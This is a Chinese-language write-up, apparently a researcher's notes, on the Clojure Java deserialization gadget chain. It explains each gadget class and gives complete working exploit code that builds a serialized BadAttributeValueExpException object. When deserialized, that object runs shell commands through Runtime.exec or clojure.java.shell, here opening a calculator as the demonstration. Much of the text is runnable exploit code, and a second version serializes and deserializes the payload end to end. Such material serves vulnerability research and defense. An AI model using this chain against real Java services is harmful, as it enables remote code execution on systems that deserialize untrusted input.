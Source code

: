 # Clojure

> [Clojure](https://clojure.org/) 是一种运行在 Java 平台上的 Lisp 方言，Lisp 是一种以表达性和功能强大著称的编程语言。这个漏洞的作者是 JackOfMostTrades，是 [gadgetinspector](https://github.com/JackOfMostTrades/gadgetinspector) 的作者，并且在其 2018 年 blackhat 上议题的 [PPT](https://i.blackhat.com/us-18/Thu-August-9/us-18-Haken-Automated-Discovery-of-Deserialization-Gadget-Chains.pdf) 中以此链为例子进行了自动化挖掘的描述。

## 前置知识

Clojure中的语法和使用java对象: https://clojuredocs.org/clojure.java.shell/sh,http://www.javashuo.com/article/p-bmwnzqgu-ht.html.

```clojure
 (use '[clojure.java.shell :only [sh]]) (sh "ls" "-aul")
```

使用java对象

```
user=> (import [java.util Date Stack]
user=> (Date.)
#inst "2016-06-28T15:19:05.923-00:00"

 (.indexOf "hello,clojure" "j") 调用方法
 (java.lang.Math/abs -3) 分开类和成员 
 System.out.println(System.getProperties().get("os.name"));
 (.. System (getProperties)(get "os.name"))
```

```
(. (Runtime/getRuntime) exec"calc")
```

## exp

```java
// 执行系统命令的两种写法，本质都是使用 java.lang.Runtime 类
		String payload1 = "(import 'java.lang.Runtime)\n" +
				"(. (Runtime/getRuntime) exec\"open -a Calculator.app\")";

		String payload2 = "(use '[clojure.java.shell :only [sh]])\n" +
				"(sh\"open\" \"-a\" \"Calculator.app\")";

		// 初始化 AbstractTableModel$ff19274a 对象
		AbstractTableModel$ff19274a model = new AbstractTableModel$ff19274a();

		HashMap<Object, Object> map = new HashMap<>();

		// 使用 core$constantly$fn__4614 保存 payload 对象，调用其 invoke 方法时会返回 payload
		core$constantly$fn__4614 core1 = new core$constantly$fn__4614(payload2);
		// 将 core$constantly$fn__4614 和 main$eval_opt 保存在 core$comp$fn__4727 中
		core$comp$fn__4727 core2 = new core$comp$fn__4727(core1, new clojure.main$eval_opt());


		// 将 hashCode 与 core$comp$fn__4727 进行映射
		map.put("hashCode", core2);
		model.__initClojureFnMappings(PersistentArrayMap.create(map));

		// 使用 HashMap hashCode 触发
//		HashMap<Object, Object> hashMap = new HashMap<>();
//		hashMap.put(model,"su18");
//		hashMap.put("su19","su20");
//		SerializeUtil.writeObjectToFile(hashMap, fileName);

		// 实例化 BadAttributeValueExpException 并反射写入
		BadAttributeValueExpException exception = new BadAttributeValueExpException("su18");
		Field                         field     = BadAttributeValueExpException.class.getDeclaredField("val");
		field.setAccessible(true);
		field.set(exception, model);
```

## 分析

### main$eval_opt

![image-20220512235130177](https://gitee.com/ddem0/typora-pic/raw/master/images/image-20220512235130177.png)

![image-20220512235451831](https://gitee.com/ddem0/typora-pic/raw/master/images/image-20220512235451831.png)

所以

```java
String payload = "(use '[clojure.java.shell :only [sh]])(sh\"calc\")";
main$eval_opt.invokeStatic(payload);
```

### AbstractTableModel$ff19274a

这个类是

![image-20220512235947122](https://gitee.com/ddem0/typora-pic/raw/master/images/image-20220512235947122.png)

可以调用对象的invoke方法。这个类的__clojureFnMap是`IPersistentMap`,猜测是封装的map类型

```
PersistentArrayMap.create 可以封装。
```

### core$comp$fn__4727

他的invoke方法

![image-20220513000426222](https://gitee.com/ddem0/typora-pic/raw/master/images/image-20220513000426222.png)

实际上这个类是整条调用链的关键，我们只需要让 `this.g` 是 `main$eval_opt` 类，`this.f` 的 invoke 方法返回待解析的恶意 payload。

### core$constantly$fn__4614

在调用 `doInvoke` 方法时返回，而由于其 `getRequiredArity()` 方法也返回 0，因此调用其 invoke 方法时，也会返回 `this.x` 中储存的对象。

`constantly`关键字了属于是。



## ending

```java
new clojure.core$comp().invoke(
						new clojure.main$eval_opt(),
						new clojure.core$constantly().invoke(clojurePayload))				
						
// 使用 core$constantly$fn__4614 保存 payload 对象，调用其 invoke 方法时会返回 payload
core$constantly$fn__4614 core1 = new core$constantly$fn__4614(payload2);
// 将 core$constantly$fn__4614 和 main$eval_opt 保存在 core$comp$fn__4727 中
core$comp$fn__4727 core2 = new core$comp$fn__4727(core1, new clojure.main$eval_opt());
```

```javascript
        // 执行系统命令的两种写法，本质都是使用 java.lang.Runtime 类
        String payload1 = "(import 'java.lang.Runtime)\n" +
            "(. (Runtime/getRuntime) exec\"calc\")";

        String payload2 = "(use '[clojure.java.shell :only [sh]])\n" +
            "(sh\"calc\")";

        // 初始化 AbstractTableModel$ff19274a 对象
        AbstractTableModel$ff19274a model = new AbstractTableModel$ff19274a();

        HashMap<Object, Object> map = new HashMap();

        // 使用 core$constantly$fn__4614 保存 payload 对象，调用其 invoke 方法时会返回 payload
        core$constantly$fn__4614 core1 = new core$constantly$fn__4614(payload2);
        // 将 core$constantly$fn__4614 和 main$eval_opt 保存在 core$comp$fn__4727 中
        core$comp$fn__4727 core2 = new core$comp$fn__4727(core1, new clojure.main$eval_opt());


        // 将 hashCode 与 core$comp$fn__4727 进行映射
        map.put("toString", core2);
        model.__initClojureFnMappings(PersistentArrayMap.create(map));

        // 使用 HashMap hashCode 触发
//		HashMap<Object, Object> hashMap = new HashMap<>();
//		hashMap.put(model,"su18");
//		hashMap.put("su19","su20");
//		SerializeUtil.writeObjectToFile(hashMap, fileName);

        // 实例化 BadAttributeValueExpException 并反射写入
        BadAttributeValueExpException exception = new BadAttributeValueExpException("su18");
        Field field     = BadAttributeValueExpException.class.getDeclaredField("val");
        field.setAccessible(true);
        field.set(exception, model);
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(exception);
        oos.close();
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        ois.readObject();
```

直接toString触发了

